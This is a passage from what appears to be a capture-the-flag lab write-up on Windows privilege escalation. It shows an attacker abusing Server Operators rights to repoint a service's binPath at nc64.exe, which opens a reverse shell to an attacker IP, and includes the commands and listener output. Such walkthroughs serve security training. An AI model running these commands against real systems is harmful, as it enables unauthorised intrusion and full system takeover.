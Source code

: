         HKLM\system\currentcontrolset\services\acpipagr (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\AcpiPmi (Server Operators [WriteData/CreateFiles GenericWrite])
        HKLM\system\currentcontrolset\services\acpitime (Server Operators [WriteData/CreateFiles GenericWrite]) 
    ...[snip]...



### Exploit Service

To get a shell, I'll upload `nc64.exe`:



    *Evil-WinRM* PS C:\programdata> upload /opt/shells/netcat/nc64.exe
    Info: Uploading /opt/shells/netcat/nc64.exe to C:\programdata\nc64.exe

                                                                 
    Data: 60360 bytes of 60360 bytes copied

    Info: Upload successful!



Now I'll need to find a service I can stop and start. Took a bit of
trial and error, but found `browser`. I'll change the `binPath`:



    *Evil-WinRM* PS C:\programdata> sc.exe config browser binPath= "C:\programdata\nc64.exe -e cmd.exe 10.10.14.19 443"
    [SC] ChangeServiceConfig SUCCESS



Now stop the service, and then start it:



    *Evil-WinRM* PS C:\programdata> sc.exe stop browser

    SERVICE_NAME: browser
            TYPE               : 20  WIN32_SHARE_PROCESS
            STATE              : 3  STOP_PENDING
                                    (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x1
            WAIT_HINT          : 0xafc8
    *Evil-WinRM* PS C:\programdata> sc.exe start browser
    [SC] StartService FAILED 1053:

    The service did not respond to the start or control request in a timely fashion.



It reports that it failed, but that's because `nc64.exe` isn't a service
binary. At my `nc` listener:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.179.
    Ncat: Connection from 10.10.10.179:50019.
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
